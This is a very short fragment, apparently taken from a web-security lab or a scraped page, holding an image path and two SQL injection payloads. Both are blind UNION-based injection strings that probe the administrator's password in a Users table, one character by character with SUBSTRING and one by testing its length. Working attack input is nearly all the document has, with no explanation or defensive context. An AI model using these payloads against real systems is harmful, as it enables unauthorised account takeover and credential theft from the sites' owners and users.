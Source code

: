 ' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'-- 

x' UNION SELECT 'a' FROM users WHERE username='administrator' and length(password)>1--
